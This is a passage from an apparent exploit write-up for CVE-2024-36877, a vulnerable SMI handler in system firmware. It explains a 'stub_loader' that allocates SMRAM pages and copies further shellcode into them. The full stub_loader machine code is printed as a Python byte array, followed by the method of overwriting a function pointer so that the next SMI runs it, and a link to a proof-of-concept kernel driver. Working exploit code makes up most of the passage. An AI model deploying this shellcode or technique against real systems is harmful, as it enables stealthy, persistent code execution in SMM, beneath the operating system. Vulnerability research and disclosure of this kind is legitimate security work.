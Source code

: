 ```
  ...
} CONFIG, * PCONFIG;
#pragma pack(pop)
```

`stub_loader` only has one job: allocate pages in SMRAM and copy the contents of `CommBuffer->source` to the new page. It then saves the newly allocated page address to `Config->DispatchFunction` and calls that address for all other subsequent SW SMIs. It always returns -1, which causes the vulnerable SMI handler to exit without running any other code.

I use my new memcpy code to write the `stub_loader` shellcode over `g_SetVarPtrs` address (see the very top for the SMI handler pseudocode if you missed it). This way, no call bytecode has to be modified.

```
STUB_LOADER = [
        b'\x40', b'\x57', b'\x48', b'\x83', b'\xEC', b'\x20', b'\xBF', b'\x00',
        b'\x05', b'\x00', b'\x00', b'\x48', b'\x8B', b'\x07', b'\x48', b'\x85',
        b'\xC0', b'\x0F', b'\x84', b'\xC0', b'\x00', b'\x00', b'\x00', b'\x48',
        b'\x8B', b'\x14', b'\x25', b'\x20', b'\x05', b'\x00', b'\x00', b'\x48',
        b'\x85', b'\xD2', b'\x74', b'\x09', b'\x8B', b'\xCF', b'\xFF', b'\xD2',
        b'\xE9', b'\xAA', b'\x00', b'\x00', b'\x00', b'\x48', b'\xC7', b'\x40',
        b'\x14', b'\xFF', b'\x00', b'\x00', b'\x00', b'\x48', b'\x8B', b'\x07',
        b'\x48', b'\x83', b'\x38', b'\x00', b'\x0F', b'\x84', b'\x8D', b'\x00',
        b'\x00', b'\x00', b'\x83', b'\x78', b'\x10', b'\x01', b'\x0F', b'\x82',
        b'\x83', b'\x00', b'\x00', b'\x00', b'\x4C', b'\x8B', b'\x14', b'\x25',
        b'\x08', b'\x05', b'\x00', b'\x00', b'\x4D', b'\x85', b'\xD2', b'\x75',
        b'\x0A', b'\x48', b'\xC7', b'\x40', b'\x14', b'\xFD', b'\x00', b'\x00',
        b'\x00', b'\xEB', b'\x74', b'\x48', b'\x83', b'\x64', b'\x24', b'\x30',
        b'\x00', b'\x4C', b'\x8D', b'\x4C', b'\x24', b'\x30', b'\xBA', b'\x05',
        b'\x00', b'\x00', b'\x00', b'\x33', b'\xC9', b'\x44', b'\x8D', b'\x42',
        b'\xFC', b'\x41', b'\xFF', b'\x52', b'\x60', b'\x48', b'\x8B', b'\x0C',
        b'\x25', b'\x00', b'\x05', b'\x00', b'\x00', b'\x48', b'\x85', b'\xC0',
        b'\x75', b'\x3B', b'\x4C', b'\x8B', b'\x4C', b'\x24', b'\x30', b'\x45',
        b'\x33', b'\xC0', b'\x4C', b'\x89', b'\x0C', b'\x25', b'\x20', b'\x05',
        b'\x00', b'\x00', b'\x44', b'\x39', b'\x41', b'\x10', b'\x76', b'\x1B',
        b'\x33', b'\xD2', b'\x48', b'\x8B', b'\x01', b'\x41', b'\xFF', b'\xC0',
        b'\x8A', b'\x0C', b'\x02', b'\x41', b'\x88', b'\x0C', b'\x11', b'\x48',
        b'\xFF', b'\xC2', b'\x48', b'\x8B', b'\x0F', b'\x44', b'\x3B', b'\x41',
        b'\x10', b'\x72', b'\xE7', b'\x48', b'\x8B', b'\x07', b'\x48', b'\x83',
        b'\x60', b'\x14', b'\x00', b'\xEB', b'\x12', b'\x48', b'\xC7', b'\x41',
        b'\x14', b'\xEE', b'\x00', b'\x00', b'\x00', b'\xEB', b'\x08', b'\x48',
        b'\xC7', b'\x40', b'\x14', b'\xFE', b'\x00', b'\x00', b'\x00', b'\x48',
        b'\x83', b'\xC8', b'\xFF', b'\x48', b'\x83', b'\xC4', b'\x20', b'\x5F',
        b'\xC3', b'\xCC', b'\xCC', b'\xCC',
    ]
```

The next SMI call will now call `stub_loader` instead, which will then kick off page allocation and perform the final shellcode copy. And that’s it! No more having to set UEFI variables or fighting with wide bytes.

[#](#the-poc) The POC
---------------------

Find the POC (in kernel driver form) on [GitHub](https://github.com/jjensn/CVE-2024-36877).